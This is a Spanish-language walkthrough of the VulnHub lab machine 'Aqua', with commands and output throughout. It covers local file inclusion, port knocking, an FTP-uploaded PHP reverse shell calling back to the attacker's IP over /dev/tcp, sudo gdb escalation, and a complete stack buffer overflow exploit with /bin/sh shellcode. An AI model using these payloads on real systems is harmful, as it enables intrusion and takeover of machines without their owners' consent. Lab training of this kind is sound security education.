





Resolución de la máquina Aqua de la plataforma de VulnHub
Iniciamos escaneando los puertos de la máquina con nmap, curiosamente ftp esta filtrado
❯ nmap 192.168.100.43
Nmap scan report for 192.168.100.43
PORT STATE SERVICE
21/tcp filtered ftp
80/tcp open http
139/tcp open netbios-ssn
445/tcp open microsoft-ds
En la web nos dicen que megumin ha hackeado su ordenador pregunta si podemos ayudar...

Al decir que si, nos muestra las credenciales megumin:watashiwamegumin

Empezaremos con un poco de fuerza bruta buscando archivos .php con wfuzz
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -u http://192.168.100.43/FUZZ.php --hc 404 -t 200
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer *
********************************************************
Target: http://192.168.100.43/FUZZ.php
Total requests: 30000
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000000245: 200 27 L 92 W 927 Ch "index"
000000882: 200 30 L 93 W 935 Ch "welcome"
000000039: 200 50 L 173 W 1801 Ch "login"
000000130: 302 17 L 17 W 158 Ch "home"
Encontramos un login.php donde podemos utilizar las credenciales de megumin

Al entrar podemos ver algo en la url, el index.php se gestiona con ?showcase= parece haber un lfi

Para hacerlo desde consola mas comodo, tomaremos la cookie de sesión para arrastrarla

Primero probaremos leer el /etc/passwd para ver algunos usuarios validos
❯ curl -s "192.168.100.43/home.php?showcase=../../../../etc/passwd" -b PHPSESSID=5mggqnkqh50j69pkv5214nghb4 | grep sh$
root:x:0:0:root:/root:/bin/bash
aqua:x:1000:1000:aqua,,,:/home/aqua:/bin/bash
megumin:x:1001:1001:,,,:/var/www/html/deployment:/bin/bash
Despues de enumerar archivos, podemos ver el la configuración de knockd que al golpear los puertos 1234,5678,9012 por tcp en la interfaz enp0s3, conseguimos acceso al 21 (ftp)
❯ curl -s "192.168.100.43/home.php?showcase=../../../../etc/knockd.conf" -b PHPSESSID=5mggqnkqh50j69pkv5214nghb4 | tail -n8
[options]
UseSysLog
Interface=enp0s3
[FTP]
sequence = 1234:tcp,5678:tcp,9012:tcp
seq_timeout = 15
tcpflags = syn
command = iptables -I INPUT 1 -s %IP% -p tcp -m tcp --dport 21 -j ACCEPT
Con la herramienta knock golpeamos los puertos y al revisar con nmap, el 21 esta abierto
❯ knock 192.168.100.43 -v 1234 5678 9012
hitting tcp 192.168.100.43:1234
hitting tcp 192.168.100.43:5678
hitting tcp 192.168.100.43:9012
❯ nmap 192.168.100.43 -p 21
Nmap scan report for 192.168.100.43
PORT STATE SERVICE
21/tcp open ftp
Nos podemos conectar por ftp reutilizando las credenciales de megumin, podemos ver un archivo notes que procedemos a descargar con get
❯ ftp 192.168.100.43
Connected to 192.168.100.43.
220 (vsFTPd 3.0.3)
Name (192.168.100.43:root): megumin
331 Please specify the password.
Password: watashiwamegumin
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r-- 1 33 33 107 Jan 16 2020 hello.php
-rw-r--r-- 1 33 33 93 Jan 16 2020 notes
drwxr-xrwx 2 1001 1001 4096 Jan 14 2020 production
226 Directory send OK.
ftp> get notes
local: notes remote: notes
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for notes (93 bytes).
226 Transfer complete.
ftp>
Al leerlo, nos lekea la ruta donde se encuentra la carpeta production que vemos por ftp
❯ cat notes
Please do not delete the /var/www/html/deployment/production/ directory - Megumin the hacker
Ahora creamos una archivo php que al ejecutarlo nos envie una reverse shell con bash
❯ cat shell.php
<?php
system("bash -c 'bash -i >& /dev/tcp/192.168.100.41/443 0>&1'")
?>
Nos conectamos nuevamente a ftp y subimos el php en el directorio production
❯ ftp 192.168.100.43
Connected to 192.168.100.43.
220 (vsFTPd 3.0.3)
Name (192.168.100.43:root): megumin
331 Please specify the password.
Password: watashiwamegumin
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd production
250 Directory successfully changed.
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
ftp>
Finalmente mediante el lfi arrastrando la cookie, hacemos la petición y conseguimos la shell
❯ curl "192.168.100.43/home.php?showcase=../deployment/production/shell.php" -b PHPSESSID=5mggqnkqh50j69pkv5214nghb4
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 192.168.100.43
www-data@aqua:~/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),1001(megumin)
www-data@aqua:~/html$ hostname -I
192.168.100.43
www-data@aqua:~/html$
Ya que tenemos shell podemos reulizar las credenciales de megumin para pivottar de usuario
www-data@aqua:~$ su megumin
Password: watashiwamegumin
megumin@aqua:/var/www/html$ id
uid=1001(megumin) gid=1001(megumin) groups=1001(megumin)
megumin@aqua:/var/www/html$ hostname -I
192.168.100.43
megumin@aqua:/var/www/html$
Mirando privilegios de sudoers, podemos ejecutar un binario del directorio de aqua
megumin@aqua:~$ sudo -l
Matching Defaults entries for megumin on aqua:
env_reset, mail_badpass,
secure_path=/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User megumin may run the following commands on aqua:
(ALL) NOPASSWD: /home/aqua/Desktop/backdoor
megumin@aqua:~$
Lo que hace el script es darnos unas shell cuando nos conectemos al puerto 1337
megumin@aqua:~$ cat /home/aqua/Desktop/backdoor
#!/bin/bash
echo "[+] Backdoor opened! Hehehe..."
runuser -l aqua -c 'nc -lvnp 1337 -e /bin/sh' &>/dev/null
megumin@aqua:~$
Ejecutamos el script, nos conectamos con netcat y nos convertimos en aqua
megumin@aqua:~$ sudo /home/aqua/Desktop/backdoor
[+] Backdoor opened! Hehehe...
❯ netcat 192.168.100.43 1337
script /dev/null -c bash
aqua@aqua:~$ whoami
aqua
aqua@aqua:~$ hostname -I
192.168.100.43
aqua@aqua:~$
Mirando los sudoers de aqua podemos ver gdb, esto es una escalada sencilla
aqua@aqua:~$ sudo gdb -q
(gdb) !bash
root@aqua:~# id
uid=0(root) gid=0(root) groups=0(root)
root@aqua:~# hostname -I
192.168.100.43
root@aqua:~#
Ahora bien, supongo que esta no es la via intencional de la máquina, ya que tenemos el binario /root/quotes que es la otra manera de explotar, la conclusión seria que el privilegio a gdb a nivel de sudoers es para debuguear el binario y conseguir explotarlo
Iniciamos viendo que es lo que hace el binario, nos pide el nombre como argumento
aqua@aqua:~$ sudo /root/quotes
/root/quotes [Your name here]
aqua@aqua:~$ sudo /root/quotes gato
Hi gato,
The best way to pay for a lovely moment is to enjoy it.
aqua@aqua:~$
Ahora intentaremos pasarle varias A como argumento para ver si conseguimos segmentation fault
aqua@aqua:~$ sudo /root/quotes $(python3 -c "print('A'*50)")
Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,
Segmentation fault
aqua@aqua:~$
En mi caso para manejarme más comodo instale peda, ya que sus funciones facilitan las cosas
Podemos usar gdb para saber cuantas A se necesitan antes de sobreescribir registros, son 44
aqua@aqua:~$ sudo gdb -q /root/quotes
Reading symbols from /root/quotes...(no debugging symbols found)...done.
gdb-peda$ pattern_create 50 pattern
Writing pattern of 50 chars to filename "pattern"
gdb-peda$ run $(cat pattern)
Starting program: /root/quotes $(cat pattern)
Hi AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA,
Program received signal SIGSEGV, Segmentation fault.
[---------------------------------registers----------------------------------]
EAX: 0x37 ('7')
EBX: 0xbffffbb0 --> 0x2
ECX: 0x7fffffca
EDX: 0xb7fbc870 --> 0x0
ESI: 0x8048ed0 ("Hi %s,\n")
EDI: 0xbffffb80 --> 0x2
EBP: 0x41304141 ('AA0A')
ESP: 0xbffff3a0 --> 0xbf004162
EIP: 0x41414641 ('AFAA')
EFLAGS: 0x10282 (c parity adjust zero SIGN trap INTERRUPT direction overflow)
[------------------------------------code------------------------------------]
Invalid $PC address: 0x41414641
[-----------------------------------stack------------------------------------]
0000| 0xbffff3a0 --> 0xbf004162
0004| 0xbffff3a4 --> 0x0
0008| 0xbffff3a8 --> 0x0
0012| 0xbffff3ac --> 0x0
0016| 0xbffff3b0 ("Impossible is for the unwilling.")
0020| 0xbffff3b4 ("ssible is for the unwilling.")
0024| 0xbffff3b8 ("le is for the unwilling.")
0028| 0xbffff3bc ("s for the unwilling.")
[----------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414641 in ?? ()
gdb-peda$ pattern_offset 0x41414641
1094796865 found at offset: 44
gdb-peda$
Viendo las funciones podemos encontrar entre ellas una llamada getname
gdb-peda$ info functions
All defined functions:
Non-debugging symbols:
0x08048364 _init
0x080483a0 printf@plt
0x080483b0 time@plt
0x080483c0 strcpy@plt
0x080483d0 puts@plt
0x080483e0 exit@plt
0x080483f0 srand@plt
0x08048400 __libc_start_main@plt
0x08048410 rand@plt
0x08048430 _start
0x08048460 __x86.get_pc_thunk.bx
0x08048470 deregister_tm_clones
0x080484a0 register_tm_clones
0x080484e0 __do_global_dtors_aux
0x08048500 frame_dummy
0x0804852b main
0x080485fc getname
0x08048630 __libc_csu_init
0x08048690 __libc_csu_fini
0x08048694 _fini
gdb-peda$
Por ahora correremos el programa con lo siguiente como argumento
"A"*44 # Junk: la cantidad de A antes de sobreescribir registros
"B"*4 # Por ahora vale 4 veces B pero será la dirección donde apuntaremos
"\x90"*16 # Simplemente nops, en este caso solo usaremos 16 de ellos
"C"*23 # Por ahora vale 23 veces C (tamaño del shellcode de /bin/sh)
Ahora lo ejecutamos con esos valores como argumento y veremos su comportamiento
gdb-peda$ run $(python -c 'print(("A"*44)+("B"*4)+("\x90"*16)+("C"*23))')
Starting program: /root/quotes $(python -c 'print(("A"*44)+("B"*4)+("\x90"*16)+("C"*23))')
Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB����������������CCCCCCCCCCCCCCCCCCCCCCC,
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x5c ('\\')
EBX: 0xbffffb90 --> 0x2
ECX: 0x7fffffa5
EDX: 0xb7fbc870 --> 0x0
ESI: 0x8048ed0 ("Hi %s,\n")
EDI: 0xbffffb60 --> 0x2
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff380 --> 0x90909090
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xbffff380 --> 0x90909090
0004| 0xbffff384 --> 0x90909090
0008| 0xbffff388 --> 0x90909090
0012| 0xbffff38c --> 0x90909090
0016| 0xbffff390 ('C' )
0020| 0xbffff394 ('C' )
0024| 0xbffff398 ('C' )
0028| 0xbffff39c ('C' )
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$
Podemos ver nuestros nops en el comienzo de la pila y un poco después las C
Tomaremos la dirección de donde comienza la pila y le daremos la vuelta ya que son 32 bits
0xbffff380 --> bf ff f3 80 --> 80 f3 ff bf --> \x80\xf3\xff\xbf
Ahora los valores de el argumento serán los siguientes
"A"*44 # Junk: la cantidad de A antes de sobreescribir registros
"\x80\xf3\xff\xbf" # Dirección donde comienza la pila
"\x90"*16 # Los 16 nops que utilizaremos
Y por ultimo cambiaremos las 23 C por el shellcode de 23 bytes para /bin/sh
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
Podemos crear un breakpoint en la dirección de ret de la función getname para ver si todo va bien
gdb-peda$ disas getname
Dump of assembler code for function getname:
0x080485fc <+0>: push ebp
0x080485fd <+1>: mov ebp,esp
0x080485ff <+3>: sub esp,0x28
0x08048602 <+6>: sub esp,0x8
0x08048605 <+9>: push DWORD PTR [ebp+0x8]
0x08048608 <+12>: lea eax,[ebp-0x28]
0x0804860b <+15>: push eax
0x0804860c <+16>: call 0x80483c0
0x08048611 <+21>: add esp,0x10
0x08048614 <+24>: sub esp,0xc
0x08048617 <+27>: push 0x8048ed0
0x0804861c <+32>: call 0x80483a0
0x08048621 <+37>: add esp,0x10
0x08048624 <+40>: nop
0x08048625 <+41>: leave
0x08048626 <+42>: ret
End of assembler dump.
gdb-peda$ b *0x08048626
gdb-peda$
Al correr el programa con los nuevos argumentos, podemos ver nuestro payload en la pila
gdb-peda$ run $(python -c 'print(("A"*44)+("\x80\xf3\xff\xbf")+("\x90"*16)+("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"))')
Starting program: /root/quotes $(python -c 'print(("A"*44)+("\x80\xf3\xff\xbf")+("\x90"*16)+("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"))')
Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������������������1�Ph//shh/bin��PS��
[----------------------------------registers-----------------------------------]
EAX: 0x5c ('\\')
EBX: 0xbffffb90 --> 0x2
ECX: 0x7fffffa5
EDX: 0xb7fbc870 --> 0x0
ESI: 0x8048ed0 ("Hi %s,\n")
EDI: 0xbffffb60 --> 0x2
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff380 --> 0x90909090
ESP: 0xbffff37c --> 0xbffff380 --> 0x90909090
EIP: 0x8048626 (<getname+42>: ret)
[-------------------------------------code-------------------------------------]
0x8048621 <getname+37>: add esp,0x10
0x8048624 <getname+40>: nop
0x8048625 <getname+41>: leave
=> 0x8048626 <getname+42>: ret
0x8048627: xchg ax,ax
0x8048629: xchg ax,ax
0x804862b: xchg ax,ax
0x804862d: xchg ax,ax
[------------------------------------stack-------------------------------------]
0000| 0xbffff37c --> 0xbffff380 0x90909090
0004| 0xbffff380 --> 0x90909090
0008| 0xbffff384 --> 0x90909090
0012| 0xbffff388 --> 0x90909090
0016| 0xbffff38c --> 0x90909090
0020| 0xbffff390 --> 0x6850c031
0024| 0xbffff394 ("//shh/bin\211\343PS\211\341\260\v̀")
0028| 0xbffff398 ("h/bin\211\343PS\211\341\260\v̀")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Breakpoint 1, 0x08048626 in getname ()
gdb-peda$
Y al continuar nos dice que se ejecuta el programa /bin/dash, significa que todo es correcto
gdb-peda$ c
Continuing.
process 5179 is executing new program: /bin/dash
Warning:
Cannot insert breakpoint 1.
Cannot access memory at address 0x8048626
gdb-peda$
Finalmente ejecutamos el binario con el payload fuera de gdb y conseguimos la shell como root
aqua@aqua:~$ sudo /root/quotes $(python -c 'print(("A"*44)+("\x80\xf3\xff\xbf")+("\x90"*16)+("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"))')
Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������������������1�Ph//shh/bin��PS��
,
# bash
root@aqua:/home/aqua# cd /root
root@aqua:~# id
uid=0(root) gid=0(root) groups=0(root)
root@aqua:~# hostname -I
192.168.100.43
root@aqua:~# cat /root/root.txt
Congratulations on getting the root shell!
Try to get root on two ways! [If you have more, well, you're the master then.. :> ]
Need some hint on the harder way of getting root? Decode this : RG8gbm90IHVzZSAvdXNyL3NoYXJlL2dkYiBpbiB0aGUgc3Vkb2VycyBmaWxl
Or if you don't want any hint, simply don't decode it. XD
You like the box? or not? Hit me up on Twitter @yunaranyancat ;)
.. ((((##,
,,..*/(/(##%%%%#/*. ##(##.
.,..**.,*////((########%%%( ,%#(
,..,(*(((///((((((((#######%%%%##/,,..
,.,(#(//////(((((####((####%%%%###%%#####(///*
..*(#/***////((##(///(#(//(#%((((((%%%%%%#######*/,
..,##*,,***//((////(#((((((%#**/(((%#((#(#%%%########**.
,./#/,,,,**//***//(((((((#%%(((((##(*/((#(((%#%#########**,
.,(#*,,,,*..,**/////((##(%#(((((#((((((((#(((#%##%##########*,
,.(#*.,,,....,*/**///////#(((((((((((((((((((((#%##%##########(*.
,,,*#*,,..,,,,,*,***,,***/(//(//(((((((((((#(((((##%###############(
,.,,,(*,,.,,,,,*,*,,,***,,#///*,.,//(((((((((((((((#(###(#%###########(
.. .*,*#*,,,,,,*,*,*,*,,*(#(//*,...*///////(((*/(((((#((###((#%##########%,
. ,#,,(%******/*******,*##*//*,**,,,*////////,*//((((#(((###(##%##########%*
, *%/**((****#(*******/##,*(*/********,.,,,*/..,*/////((/*##(####%##########%.
, /##*/*(#///#(////**/##/,*////*********, .*,..,,,*////(//*(#(#####%###########.
. .*#/#/#//#(/#(///(####(***///#/*********,,*,******///*,,,,,,#((######%##########.
, .*#//((##(((#(/////##%%////(/(#/*************/*******////,...#((((#(#(###########(
..,*(/**/(((####(///(#**//(/////##(////***(#**%(*/************,./(((((#(((%#########%*
,,*((/*/(#/((#((////****/(///(/(###(((//##//(#(//*/////********,*(((((##(((#%#########
*/(#///(#//(####&@/*,,*/((//(#/(###((#%%#(****///(//(///////****,#//((((#(((#%#######%
./(%#(/(#(//(#(**#&@*,*/((///((/(#((###/,,//**/(/#///(///////****,#(///(((#(((#########
/(#%#(#%%(//*/.,&&&&@/**///*(#///#(,,,,,,,.../((#((((((((((((/***,##//////(((((########
*(##%##%%%(/*,* .%%&&*,*//*/##/*//,,,,. .*#(((((#(((((((#////*%##//////#(((###(((((
*#**(%#%%(((/. . #//%&/*.****(,.****.,.. .,*/(//((#(((((((#(////%##(/////(#(((###((((
.,/. ,(%%(#(/#/. (*..* . ****, ,***,,,*... ..*,///(##((((((##((//(%###//////(((((%##(((
.*,. *%(//((, . ,/*, .***. .**,(%%&@@#....*///#(((((((##(((/#%%##(//((((#((((###(#
,*. *(//&* .. .,* .../&&&&&&( **//((((((####((((%%%###(((((((#(((#####
*(%&%( . ./&&&&&&&&**//((((((#(#((((%%%%###(((((((((/((###(
(/&&%/ ##/#&%&&&&&&/(((((((##(#(((#%%%%###((((((((((/(%##(
,(&%%%# .%*,/(&&%&&&%///((((#(((#((/&%%%%#(##(((/(((((//##((
.... *#%%%%%, .#*...,/%&((##*/(((#(((#((((&%%%%#((#((((((/(((/(#(/
.,. ... .#%%%%%( ,//*... ,,((##((((#(((&&%%%%#((##(((((((((/(#/*
.. . ... *%%%%&%, *(*, ,*#((((((##(/(, /%%%##((#(((((((((/(#/*
. . . .. .#/#%%%%# ,*,..,,. ..,//(((((((#(#((/*.#%%%(#((((((((((/(((#/*
. . . . *(///%%%%/ ,......,. ..,,,,,**/////(((###(((((,*,%%%%(((((/((((#//((((/*
. . . .,/#//#//(## .......,. .*****/((##%%#((#((*..(%%%%((#((((#(((//(((/(*
. . ,/((/(#/(#(#* .*,#(##%#((((#((*.,&%%%%((#((((((((//(#//((
. . .#%#/#//&%(/%, ,*/(#(#&%(######((%&&&%%%%(/#((((#(#(((#((//(
. . *%/((/#%/%# .*/***#(#&%##(#####(&&%&%%%%%(/(#((((###((/(((((
. .. ,. *.(((&%%(&%%%%#(//**............,,,,,****((#%%%######(%(&&&%%%%%%(/(#(((((###%#(((##
. .. ., .*#/%%%%/#&%%%######%.........,,,,,,,,,*(#(##%%######(%(&&&%%%%%%#/(##(/(((%###%((##
. .. , *%(/#&&%,&((&%%&%%%%%%*.......,,,,**,,,,((((%##%/(####(%%@@@&%&%%%%/(###((((##%##%%##
. %%((/((/&&%(%%%&%%%%%%,.....,*,.,,,,//(#(#%%###//((##(%&@@@@%&%%%%((##%#((((###%###%
/%%(((//////(##%%&%%%((//*...,,**,,,(####%%###((///***#&@@@&@&&%&%(/##(#(########%#(
,%%%#((//((#%%%%%#%#(*.......,,*((((##%#(%%((#(#((((/*#&@@@@@@&&%%#/##((#(#########%
,##%#%((%%%%%%%%%&@@(*,..,//#######(%%#%%(##(((#((((#&%%&&@@&%%((##(%#(####(#(((
*#%%#/, /%&@&&&@&%(/(///(((#(####%%#(##((((((((%&&%%%%%%##%%#(##(%%#///((((((
. ... ./%%%###%####%&%((//##%(#%##%%%##&((###(((((((#%%%%%###%%%(##(%%%%/((((///
.. ./#%%#%###%%####&&(#%##%######%%####&((###(((#((((##%#####%%&((#(%%%%#((((//*
.... %&&@#(%###%%#########%##%##%%%#####%#/#####((#(((%%%######%&@@#(##%%%#%%((/(/*
... #&&&&(#%##%%%##%&%###%#(#%#%%#######%&*####(#((#(((########&@@@&((#%%%##%%#///(
.. .%&%&&%%#%%%#%%%####%(##%%%&%#####%%%%%&/####((#(((((%#####%@@@&%&%/##%%%###%#***
. ,%#%&&&%%%&%%%%%####%(#%&&%%%&%%%%%%%%%%&%/####((#(((((#%#%%&&#%%&((#%%%######/*
. .*(%%&&&&&&%&&%&&%%####%((#&&&&%%%%@&%%%%%%%&&&(/(###/(##(((((#####%%%%((((##%%%#######
.(#%%%&&&&&&&%%%&%##%%&(##&&&&&%%%%&@@@@&&&&&&&&(/(###/####(/((((#########%(#(%%%######
. ,(###%%%&&&&&&&&&%#. ./&%(#%&&&&&&%%%#%&%&&&&&&%%%%%%(####/#%%###########%%%#&%(#(#%%#####
..,..*(####%%%%&&&&&&&&&&*,,(#%##(#%&@&&&&&%%###%&&%&&&%%%%%%%%%%%%(/(####%%%%%&&&&&&&&&%(#((%%####
.,*(((#####%%%%&&&&,,,.,.......(##%&&&&&&&&%#####&&&&%%%%%%%%%%%%%%%(//#%%%%%%%%%%%&&&&&&%((/(/#%##
/(((((#####%%%&&&%,.,**,,,/#(((##%&&&%&&&&&####&&&%%%%%%%%%%%%#%%%%(//(#%%#%%%%%%%#%%&&&&((//(/(%
((((((#####&&&&&%%%&&(..*#@(/((#%&&%%%%%%%%&(((%&%%%%%%%%%%%%%%%%%%%(////(%%%%%%%%%%#%%#%%#((/(//
/(((**,*##&@&&&%%&%%/../(#@,((##&&&%%%%%%%%%(((%%%%%%%%%%%%%#%%%%%%%%(//////(%%%%%%%%(//#%%%((//(
........(##@@&&((.../(/%&/(%#&&&%%%%%%%%%%%&(((#%%%%%%%%%%%%%%%%%%#%%%%(//////////////#&&&%%%##%#
.......,#((*/&(#*,,/#/*&&(%%#&&&%%%%%%%%%%%%%((%%%%%%%%%%%%%%%%%%#%%#%%%%///////////(&&&%%%%%####
......./((///%#%%/,,*#(,/&%%%%&%%%%%%%%%%%%%%/(%%%%%%%%%%%%%%%%%%###%%%%%%%%%#(##%&%%%%%#%%%%%%##
.......(,**#%%%####%%(,*(&&%%%%%&%#%%%%%##%%%%%/(%%%%%%%%%%%%%%%%%%%%%%%%%#%%%%%%%%%%%%%%%%##%%%%##
....,*...#%%%#((####(,,,/&&%%%%%%%#%%%%%%%%%%%%(%%%%%%%%%%%%%%%%%%%%%%%%%%%#%%%%%%%%%%%%#########%%
..,*.,./%&%((((##(((,.,./&&%%%%%%&%%%%%%%%%%%%%#&%%%%%%%%%%%%%%%&%%%%%%%%%%%%%%%%%#%%%%%(((########
%(.*..#&%(((((#(/((. .,.(&&%%%%%%%%%%%%%%%%%%#%%%%%%%%%%%%%%%%#&%%%%%%%%%%#%%%#%%%%%%%%(/#* ,(#####
,,*.*%&(((((((//(((..*.,&%&%%%%%%##(#%%#%%%%%%%%%&%%%%%%%%%%%#%%%%%#%%%%%%%%%%%%%%%%%%#/#** *(#(
/,,#%%(((((/////((/,*,.%%%&%%#%%#%##%%%%#%%%%%%%%%%&%%%%%%%%%#&%%%%%%%%%%%%%%%%%%%#%%#(##&/
,,/%#((((/((////((,**,,&%%&%#%%%#%%%%%%%%%%%%%%%%%%%%&&&%%%%%&&%%%%%%%%%%%%%%%%%%%%%##%#%&&
%/%&%((///////(/(*,*,,(#%%%#%%%%%%%%%%%%%%%%%%%%%%&&&&&&&&&&&&%%%%%%%%%%%%%%%%%%%%%%%%%%%(
(%%%######((///((,,*,,%#%%%%%%%%%%%%%%%%%%%%%%%%%%&&&&&&&&&&&&%%%%%%%%%%%%%%%%#%%%%%%%%%%%(
%%%####((/*(#####/**,/&#%%%%%%%%%%%%%%%%%%%%%%%%#&&&&&&&&&&&&&@&%%%%%%%%%%%%%%#%%%%%%%%%%%%/.
%%#####((((#%%%%%%%%%%&(%%%%%%%%%%%%%%%%%%%%%%%%%&%%&&&&&&&&&&&&&%%%%%%%%%%%%%%&%%%%%%%%%#/
&%%#(((####%%%%%%&&%%&&%%(%%%%%%%%%%%%%%%%%%%%%%%#%%%%%&&&&&&&&&&&&&%%%%%%%%%%%%&&%%%%%%%%%%%%#/
CCD758E72A8A8CB5F140BAB26837F363908550F2558ED86D229EC9016FED49B9
root@aqua:~#